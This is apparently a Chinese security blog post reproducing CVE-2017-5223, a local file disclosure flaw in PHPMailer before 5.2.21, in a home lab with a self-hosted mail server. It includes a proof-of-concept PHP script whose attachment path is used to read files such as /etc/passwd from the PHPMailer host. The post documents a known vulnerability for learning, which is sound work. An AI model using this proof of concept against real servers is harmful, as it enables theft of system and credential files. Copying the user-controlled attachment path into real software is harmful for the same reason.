



# PHPMailer < 5.2.21 - Local File Disclosure（CVE-2017-5223） - starnight_cyber - 博客园

> 原文：[`www.cnblogs.com/Hi-blog/p/7812934.html`](https://www.cnblogs.com/Hi-blog/p/7812934.html)

　　　　CVE-2017-5223 ：PHPMailer < 5.2.21 - Local File Disclosure 

　　本文主要介绍一下 PHPMailer < 5.2.21 - Local File Disclosure 漏洞的环境搭建和利用，关于漏洞的描述请参考下面的第二个链接。

## 环境搭建

### 说明

　　这里用到的邮件服务器是自己本地搭建的邮件服务器，我感觉其实也是可以用谷歌等邮件服务器，因为 PHPMailer 只是一个发送邮件的功能，跟具体接收邮件的服务器是无关的（谷歌的或是自己搭建的），为啥不能 Google 的呢？对，之前的两篇博客用的是 Google 的，换个胃口不行嘛 ~ 额，其实是 Google 邮件服务器总是连不上，墙外的世界我不懂 ~ 而且我本地有完备邮件系统 ~ 

　　关于邮件系统搭建请参考我的另外两篇博文：[CentOS6 安装 Sendmail + Dovecot + Squirrelmail](http://www.cnblogs.com/Hi-blog/p/7170116.html) 、 [CentOS6 安装 Sendmail + Dovecot + Roundcubemail](http://www.cnblogs.com/Hi-blog/p/7360298.html)

　　这两个随便选一个，主要是前面的 Sendmail 和 Dovecot 的安装配置，Webmail 界面只是为了方便展示，有兴趣的可以试一下，本文用的 Webmail 是 Squirrelmail。（如果可以随意在墙外游走，请忽略环境搭建）

### 邮件服务器环境介绍

　　下面简单看下本地的邮件服务器环境: CentOS6 :Sendmail + Dovecot + Squirrelmail



　　因为是局域网环境，所以在除本机外（邮件服务器），需要在 hosts 文件中增加一条邮件服务器的解析记录:（因为不想搭建 DNS）

　　linux: 在/etc/hosts 中增加如下内容：

```
192.168.0.6 mail.squirrelmail.com
```

　　这样便能正确解析：

```
starnight:~ starnight$ ping -c 1 **mail.squirrelmail.com**
PING mail.squirrelmail.com (192.168.0.6): 56 data bytes
```

　　打开浏览器可以通过域名进行访问：http://mail.squirrelmail.com/squirrelmail-1.4.20/src/login.php


　　邮件系统环境就演示到这里了。（再提醒一句，方便的话可以直接使用 Google 或其他服务器进行测试，因为搭建本地环境还是蛮费事的）

### PHPMailer 环境

　　这里用的是 PHPMailer-5.2.16， 为啥不用别的版本的，因为懒!最近刚好搭建过这个环境，其实换成其它的都是没有问题的，关于这部分的环境搭建，请参考：[PHPMailer 发送邮件(一)](http://www.cnblogs.com/Hi-blog/p/7112088.html)  中的发送邮件测试二的环境。

　　为了模仿更真实的环境，PHPMailer 在另一台虚拟机上，如下，这里同样也需要在/etc/hosts 文件中增加一条解析记录：192.168.0.6 mail.squirrelmail.com （同上）



　　访问如下地址：http://192.168.0.8/phpmailer-5.2.16/ 中的 sendmail.php， 便能发送邮件到本地的邮件服务器环境:mail.squirrelmail.com


　　出现 Message sent!，表示邮件发送成功，我们登陆一下 Webmail:  http://mail.squirrelmail.com/squirrelmail-1.4.20/src/webmail.php


　　可以看到，我们已经成功的使用了 PHPMailer 发送邮件，并且可以跟本地的邮件服务器 mail.squirrelmail.com 很好的进行交互了。

　　参考 sendmail.php：

```
<?php #Author:Yxlink
require_once('PHPMailerAutoload.php'); $mail = new PHPMailer(); $mail->IsSMTP(); $mail->Host = "mail.squirrelmail.com"; $mail->Port = 25; $mail->SMTPAuth = false; $mail->SMTPSecure = false; $mail->CharSet  = "UTF-8"; $mail->Encoding = "base64"; $mail->Username = "user1"; $mail->Password = "930901"; $mail->Subject = "Test"; $mail->From = "user1@squirrelmail.com"; $mail->FromName = "user1"; $address = "user2@squirrelmail.com"; $mail->AddAddress($address, "user2"); //$mail->AddAttachment('test.txt','test.txt');  //test.txt 可控即可任意文件读取 
$mail->Subject = 'Helo, it is a test!'; $mail->Body    = 'Test mail using PHPMailer and mail.squirrelmail.com'; $mail->AltBody = 'Test mail using PHPMailer and mail.squirrelmail.com'; if(!$mail->Send()) { echo "Mailer Error: " . $mail->ErrorInfo;
} else { echo "Message sent!";
} ?>
```

## 漏洞测试

　　访问：http://192.168.0.8/phpmailer-5.2.16/下的 poc.php, 同样会发送一封邮件，并且可以读取 PHPMailer 所在机器的文件。

　　下面是读取根目录下 message.txt 的情况(/message.txt)



　　读取/etc/passwd:


　　参考 poc.php：

```
<?php #Author:Yxlink
require_once('PHPMailerAutoload.php'); $mail = new PHPMailer(); $mail->IsSMTP(); $mail->Host = "mail.squirrelmail.com"; $mail->Port = 25; //$mail->SMTPAuth   = true;
$mail->SMTPAuth = false; $mail->SMTPSecure = false; $mail->CharSet  = "UTF-8"; $mail->Encoding = "base64"; $mail->Username = "user1"; $mail->Password = "930901"; $mail->Subject = "RRRRRRRRRRRRRRR"; $mail->From = "user1@mail.squirrelmail.com"; $mail->FromName = "user1"; $address = "user2@mail.squirrelmail.com"; $mail->AddAddress($address, "user2"); $mail->AddAttachment('test.txt','test.txt');  //test.txt 可控即可任意文件读取 
$mail->IsHTML(true); $msg="RRRRRRRRRRRRRRR";//邮件内容形如这样写。
$mail->msgHTML($msg); if(!$mail->Send()) { echo "Mailer Error: " . $mail->ErrorInfo;
} else { echo "Message sent!";
} ?>
```

　　关于该漏洞的演示就到这里。

## References

　　[PHPMailer < 5.2.21 - Local File Disclosure](https://www.exploit-db.com/exploits/43056/)

　　[PHPMailer 任意文件读取漏洞分析（CVE-2017-5223）](http://www.freebuf.com/vuls/124820.html)　　

 　  [PHPMailer 发送邮件(一)](http://www.cnblogs.com/Hi-blog/p/7112088.html)

　　[PHPMailer 发送邮件(二)](http://www.cnblogs.com/Hi-blog/p/7803293.html)

　　[CentOS6 安装 Sendmail + Dovecot + Squirrelmail](http://www.cnblogs.com/Hi-blog/p/7170116.html)

　　[CentOS6 安装 Sendmail + Dovecot + Roundcubemail](http://www.cnblogs.com/Hi-blog/p/7360298.html)